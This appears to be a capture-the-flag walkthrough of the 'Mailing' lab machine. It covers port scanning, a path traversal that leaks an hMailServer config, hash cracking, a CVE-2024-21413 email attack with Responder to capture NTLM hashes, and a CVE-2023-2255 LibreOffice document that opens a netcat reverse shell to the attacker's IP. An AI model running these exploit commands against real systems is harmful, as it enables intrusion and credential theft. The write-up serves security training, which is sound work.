


# Mailing Walkthrough

## Recon

### nmap

I start with nmap to find any open TCP ports

#### nmap -p- --min-rate 10000 10.129.232.39

PORT      STATE SERVICE  
25/tcp    open  smtp  
80/tcp    open  http  
110/tcp   open  pop3  
135/tcp   open  msrpc  
139/tcp   open  netbios-ssn  
143/tcp   open  imap  
445/tcp   open  microsoft-ds  
465/tcp   open  smtps  
587/tcp   open  submission  
993/tcp   open  imaps  
5040/tcp  open  unknown  
5985/tcp  open  wsman  
7680/tcp  open  pando-pub  
49664/tcp open  unknown  
49665/tcp open  unknown  
49666/tcp open  unknown  
49667/tcp open  unknown  
49668/tcp open  unknown  
50553/tcp open  unknown  

We have a lot of open ports let's scan their version

#### nmap -p 25,80,110,135,139,143,445,465,587,993,5040,5985,7680,47001,49664,49665,49666,49667,49668,64959 -sCV 10.129.232.39

PORT      STATE    SERVICE       VERSION  
25/tcp    open     smtp          hMailServer smtpd  
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP  
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY  
80/tcp    open     http          Microsoft IIS httpd 10.0  
|_http-server-header: Microsoft-IIS/10.0  
|_http-title: Did not follow redirect to http://mailing.htb  
110/tcp   open     pop3          hMailServer pop3d  
|_pop3-capabilities: USER TOP UIDL  
135/tcp   open     msrpc         Microsoft Windows RPC  
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn  
143/tcp   open     imap          hMailServer imapd  
|_imap-capabilities: IMAP4rev1 ACL IMAP4 NAMESPACE CAPABILITY OK IDLE RIGHTS=texkA0001 CHILDREN SORT QUOTA completed  
445/tcp   open     microsoft-ds?  
465/tcp   open     ssl/smtp      hMailServer smtpd  
|_ssl-date: TLS randomness does not represent time  
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP  
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY  
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU  
| Not valid before: 2024-02-27T18:24:10  
|_Not valid after:  2029-10-06T18:24:10  
587/tcp   open     smtp          hMailServer smtpd  
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP  
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY  
|_ssl-date: TLS randomness does not represent time  
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU  
| Not valid before: 2024-02-27T18:24:10  
|_Not valid after:  2029-10-06T18:24:10  
993/tcp   open     ssl/imap      hMailServer imapd  
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU  
| Not valid before: 2024-02-27T18:24:10  
|_Not valid after:  2029-10-06T18:24:10  
|_imap-capabilities: IMAP4rev1 ACL IMAP4 NAMESPACE CAPABILITY OK IDLE RIGHTS=texkA0001 CHILDREN SORT QUOTA completed  
|_ssl-date: TLS randomness does not represent time  
5040/tcp  open     unknown  
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|_http-server-header: Microsoft-HTTPAPI/2.0  
|_http-title: Not Found  
7680/tcp  open     pando-pub?  
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|_http-server-header: Microsoft-HTTPAPI/2.0  
|_http-title: Not Found  
49664/tcp open     msrpc         Microsoft Windows RPC  
49665/tcp open     msrpc         Microsoft Windows RPC  
49666/tcp open     msrpc         Microsoft Windows RPC  
49667/tcp open     msrpc         Microsoft Windows RPC  
49668/tcp open     msrpc         Microsoft Windows RPC  
64959/tcp filtered unknown  
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows  

Host script results:
| smb2-time: 
|   date: 2026-05-20T01:04:54  
|_  start_date: N/A
| smb2-security-mode:   
|   3.1.1: 
|_    Message signing enabled but not required  

So the host is Window with verion IIS verion 10 or 1016

There is a webserver on TCP 80 and redirect to mailing.htb

I note that I see SMB port 445, POP3 port 110, IMAP port 143, 993, SMTP port 465 587. WinRm port 5985 is also open

### Subdomain Brute Force

Let is find some subdomain

#### ffuf -u http://10.129.232.39 -H "Host: FUZZ.mailing.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac

I find no subdomain. Now let's add to /etc/hosts using this

#### echo '10.129.232.39 mailing.htb' | sudo tee -a /etc/hosts

then I cat /etc/hosts to check if it adds correctly

Let's get SMB TCP port 445

#### netexec smb 10.129.232.39 -u guest -p ''
SMB         10.129.232.39   445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False)   (SMBv1:None)  
SMB         10.129.232.39   445    MAILING          [-] MAILING\guest: STATUS_LOGON_FAILURE   

#### netexec smb 10.129.232.39 -u ad -p 'ad'
SMB         10.129.232.39   445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False)   (SMBv1:None)  
SMB         10.129.232.39   445    MAILING          [-] MAILING\ad:ad STATUS_LOGON_FAILURE   

#### smbclient -N -L //10.129.232.39
session setup failed: NT_STATUS_ACCESS_DENIED

### Website TCP 80

So the webpage at mailing.htb port 80 is about the ultimate mail server and power by hmailserver.

The “Download Instructions” button is a link to http://mailing.htb/download.php?file=instructions.pdf

This is a 16 page PDF that contains instructions for setting up a mail client on Windows and Ubuntu which are covering Windows Mail and Thunderbird. 

One thing to note in the document is the email address used in an example:

maya@mailing.htb matches with the name above. I note ruy@mailing.htb and gregory@mailing.htb as well

Then I look at tech stack

#### curl -i 10.129.232.39
HTTP/1.1 301 Moved Permanently  
Content-Type: text/html; charset=UTF-8  
Location: http://mailing.htb  
Server: Microsoft-IIS/10.0  
X-Powered-By: ASP.NET  
Date: Wed, 20 May 2026 01:29:29 GMT  
Content-Length: 152  

It is ASP.NET and PHP (for php it shows in download.php) => IIS

Let's some directory brute force

#### feroxbuster -u http://mailing.htb -x php,aspx

I already know download.php, and nothing else look interested for me.

### Shell as maya

So I see the instructions were downloaded from /download.php?file=instructions.pdf. 

I can check for directory traversal

####  curl http://mailing.htb/download.php?file=../../windows/system32/drivers/etc/hosts

Nothing is interested but I note down that it works with back slash

#### curl 'http://mailing.htb/download.php?file=..\\..\\windows\\system32\\drivers\\etc\\hosts'

I try to guess C:\wwwroot

#### curl http://mailing.htb/download.php?file=../../wwwroot/download.php

It used to be local file include LFI vulnerability with file_get_contents not execute with PHP code

hMailServer stores its configuration data in hMailServer.in

I google and foudn this forum https://hmailserver.com/forum/viewtopic.php?t=39079 recomend that C:\Program Files (x86)\hMailServer\Bin\

#### curl 'http://mailing.htb/download.php?file=../../Program+Files+(x86)/hMailServer/bin/hMailServer.ini'

I foudn admin password 

AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7

I identify the hash in MD5 and use crack station

The administrator password is “homenetworkingadministrator”.

#### netexec smb mailing.htb -u administrator -p 'homenetworkingadministrator'
SMB         10.129.232.39   445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False)   (SMBv1:None)
SMB         10.129.232.39   445    MAILING          [-] MAILING\administrator:homenetworkingadministrator STATUS_LOGON_FAILURE  

=> Not working

So I tried  

#### curl --url "imap://mailing.htb/INBOX" --user "administrator@mailing.htb:homenetworkingadministrator" -v

The credential work but there are no email available

Given the credential is coming from hMailServer, I can try to log into SMTP to send email

CVE-2024-21413 

I found this POC from github

Here is the usage

#### python CVE-2024-21413.py --server "<SMTP server>" --port <SMTP port> --username "<SMTP username>" --password "<SMTP password>" --sender "<sender email>" --recipient "<recipient email>" --url "<link URL>" --subject "<email subject>"

Here is some parameter that I will use

--server mailing.htb - Target server.
--port 587 => cant on port 25
--username administrator@mailing.htb - Leaked username from hMailServer.ini.
--password homenetworkingadministrator - Cracked leaked password hash from hMailServer.ini.
--sender ad@mailing.htb - make it look authentic.
--recipient maya@mailing.htb - Start by targeting maya, but could try others as well.
--url "\\10.10.15.146\share\sploit" - 
--subject "Check this out ASAP Very Important!" - 

Here is the full cmd

#### python CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender ad@mailing.htb --recipient maya@mailing.htb --url "\\10.10.15.146\share\sploit" --subject "Check this out ASAP Very Important"

With this one open

#### sudo /usr/share/responder/Responder.py -I tun0

I create file and put the hash in

Then I run

#### hashcat maya.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

The password is “m4y4ngs4ri”.

Let is validate the credential

#### netexec smb mailing.htb -u maya -p m4y4ngs4ri
SMB         10.129.232.39   445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False)   (SMBv1:None)  
SMB         10.129.232.39   445    MAILING          [+] MAILING\maya:m4y4ngs4ri   

#### netexec winrm mailing.htb -u maya -p m4y4ngs4ri
WINRM       10.129.232.39   5985   MAILING          [*] Windows 10 / Server 2019 Build 19041 (name:MAILING) (domain:MAILING)  
WINRM       10.129.232.39   5985   MAILING          [+] MAILING\maya:m4y4ngs4ri (Pwn3d!)  

Let is login evilwinrm

#### evil-winrm -i mailing.htb -u maya -p m4y4ngs4ri

*Evil-WinRM* PS C:\Users\maya\Documents> whoami  
mailing\maya  

Then I get user flag

*Evil-WinRM* PS C:\Users\maya\Desktop> cat user.txt
2f1f091bccd2a2da8b451ff88828b6fd

### Shell as localadmin

When I ls in users directory, I see localadmin with administrative user

And in the C:\ directory has some interesting

*Evil-WinRM* PS C:\> ls  
Directory: C:\  

Mode                 LastWriteTime         Length Name  
----                 -------------         ------ ----  
d-----         3/22/2025   4:36 PM                cleanup  
d-----         4/10/2024   5:32 PM                Important Documents  
d-----         2/28/2024   8:49 PM                inetpub  
d-----         12/7/2019  10:14 AM                PerfLogs  
d-----          3/9/2024   1:47 PM                PHP  
d-r---         3/13/2024   4:49 PM                Program Files  
d-r---         3/14/2024   3:24 PM                Program Files (x86)  
d-r---          3/3/2024   4:19 PM                Users  
d-----         4/29/2024   6:58 PM                Windows  
d-----         4/12/2024   5:54 AM                wwwroot  

wwwroot not in inetpub is a little bit weird. maya can’t access wwwroot, and inetpub has the default IIS start pages

Let's look at shares 

#### netexec smb mailing.htb -u maya -p m4y4ngs4ri --shares

SMB         10.129.232.39   445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False)   (SMBv1:None)
SMB         10.129.232.39   445    MAILING          [+] MAILING\maya:m4y4ngs4ri   
SMB         10.129.232.39   445    MAILING          [*] Enumerated shares  
SMB         10.129.232.39   445    MAILING          Share           Permissions     Remark  
SMB         10.129.232.39   445    MAILING          -----           -----------     ------  
SMB         10.129.232.39   445    MAILING          ADMIN$                          Admin remota  
SMB         10.129.232.39   445    MAILING          C$                              Recurso   predeterminado                                                                                                        
SMB         10.129.232.39   445    MAILING          Important Documents READ,WRITE        
SMB         10.129.232.39   445    MAILING          IPC$            READ            IPC remota  

=> It shows READ and write access

In C:\Program Files, it has a bunch of program installed

LibreOffice jumps out as interesting and non-standard. The version is 7.4.0.1

*Evil-WinRM* PS C:\Program Files\LibreOffice\program> type version.ini

I search up with LibreOffice 7.4.0.1 cve and found CVE-2023-2255

I clone this https://github.com/elweth-sec/CVE-2023-2255.git

#### python CVE-2023-2255.py --cmd 'cmd.exe /c C:\ProgramData\nc64.exe -e cmd.exe 10.10.15.146 443' --output exploit.odt

This is going to run nc64.exe from C:\ProgramData to returns a reverse shell.

#### smbclient '//10.129.232.39/Important Documents' --user maya --password m4y4ngs4ri

Then

smb: \> put exploit.odt 
putting file exploit.odt as \exploit.odt (233.1 kB/s) (average 233.1 kB/s)

Then put nc64.exe nc64.exe
=> Since I can't find nc64.exe I just clone this github repo and upload the application i need  https://github.com/int0x33/nc.exe/

Then

#### *Evil-WinRM* PS C:\programdata> copy "\Important Documents\nc64.exe" nc64.exe

After a minute or two, I’ll get a shell at nc = > rlwrap -cAr nc -lnvp 443

C:\Program Files\LibreOffice\program>whoami
whoami
mailing\localadmin

Then

C:\Users\localadmin\Desktop>type root.txt
type root.txt
cae2e16a21061759c9c1109509df6e06

Woola I got the root flag
